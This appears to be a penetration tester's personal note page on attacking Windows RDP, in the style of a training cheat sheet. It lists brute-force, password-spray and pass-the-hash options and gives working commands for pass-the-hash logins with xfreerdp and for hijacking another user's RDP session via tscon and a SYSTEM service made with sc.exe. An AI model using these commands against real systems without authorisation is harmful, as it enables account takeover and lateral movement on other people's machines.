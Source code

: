 -- -
### Attacks
- See if RDP version is vulnerable to an exploit
- Try [[Medusa| Brute forcing a users password]]
- Try a [[Dark Arts/Passwords/Password Spray/Linux|Password Spray Attack]]
- Try a [[PtH]] attack
### Connecting w/ valid credentials
```bash
# xfree rdp
xfreerdp /v:<ip> /u:<username> /p:<passwd> 

# rdesktop
rdesktop -u <username> -p <passwd> <ip>
```
### Connecting via PtH
```bash
xfreerdp /v:<ip> /u:<username> /pth:<hash>
```

^062e8b

### Session Hijacking
You need to have `SYSTEM` privs to pull this off, so more likely than not, you need:
1. to be local admin
2. have logged into the account via rdp
3. there needs to be another logged in user

To see if another user is logged in via rdp, pull up `PowerShell` or `CMD`.
```powershell
# you will need the following:
# SESSIONNAME (ours)
# ID (targets)
query user
```

To hijack the session, if the account has `SYSTEM` privs set already, you can just run:
```powershell
# this will open a terminal that's logged in as the other user
tscon <target session ID> /dest:<our session name>
tscon 2 /dest:rdp-tcp#13
```

There are a multitude of ways to get `SYSTEM` privs, one such way if you are a local admin is to setup a service that runs the above command when executed. The service will automatically run with `SYSTEM` privs and open a terminal up as the other user. 
```powershell
# setup session hijack service
sc.exe create <service name> binpath= "cmd.exe /k tscon <targetsession id> /dest:<our session name>"
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

# start the service
net start <session name>
net start sessionhijack
```